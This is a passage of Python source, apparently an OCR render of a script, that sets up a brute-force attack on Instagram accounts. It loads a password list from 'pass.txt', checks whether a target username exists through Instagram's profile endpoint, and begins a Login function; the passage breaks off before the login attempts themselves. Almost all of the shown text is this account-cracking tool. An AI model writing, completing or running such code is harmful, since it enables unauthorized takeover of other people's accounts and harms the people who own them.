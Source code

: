 		if (an == 'y'):

			exit()

		else:

			continue

		

import requests

import json

import time

import os



filename = 'pass.txt'

if os.path.isfile(filename):

	with open(filename) as f:

	    passwords = f.read().splitlines()

	    if (len(passwords) > 0):

	    	print ('%s Passwords loads successfully' % len(passwords))

else:

	print ('Please create passwords file (pass.txt)')

	exit()









def userExists(username):

	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 

	if (r.status_code == 404):

		print ('User not found')

		return False

	elif (r.status_code == 200):

		followdata = json.loads(r.text)

		fUserID = followdata['user']['id']

		return {'username':username,'id':fUserID}





def Login(username,password):
